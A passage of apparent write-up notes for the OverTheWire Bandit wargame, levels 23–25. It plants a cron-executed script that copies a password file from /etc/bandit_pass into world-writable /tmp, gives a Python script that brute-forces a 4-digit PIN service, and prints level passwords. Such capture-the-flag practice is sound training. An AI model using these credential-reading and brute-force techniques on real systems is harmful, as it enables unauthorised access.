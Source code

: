 Pass : 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
### lvl 23
```
Same as the pervious challenges:

cat cat /usr/bin/cronjob_bandit24.sh

touch /tmp/password.txt ; chmod o+w /tmp/password.txt
echo 'cat /etc/bandit_pass/bandit24 > /tmp/password.txt' > sc.sh
chmod +x sc.sh

Wait a minut...

cat /tmp/password.txt
```
Pass : gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
### lvl 24
```
#!/usr/bin/env python3
import socket, sys

HOST, PORT = "localhost", 30002
PREFIX = "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

for i in range(10000):
    code = f"{i:04d}"
    try:
        # Open and connect socket
        s = socket.create_connection((HOST, PORT))
        # Briefly set a short timeout to grab any initial banner
        s.settimeout(0.1)
        try:
            s.recv(4096)  # discard whatever the server sends first
        except socket.timeout:
            pass
        finally:
            s.settimeout(None)

        # Send our payload and read the post‐payload response
        s.sendall(f"{PREFIX} {code}\n".encode())
        resp = s.recv(4096).decode(errors="ignore")
        s.close()
    except Exception:
        continue

    if "wrong" not in resp.lower():
        print(f"Success! Code={code}\nResponse: {resp.strip()}")
        sys.exit(0)

print("No valid code found.")
sys.exit(1)

python3 script.py    (Success! Code=2219, Response: Correct!)
```
Pass : iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
### lvl 25
```
*The shell for user bandit26 is not /bin/bash*

ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey
"Connection to bandit.labs.overthewire.org closed."

```
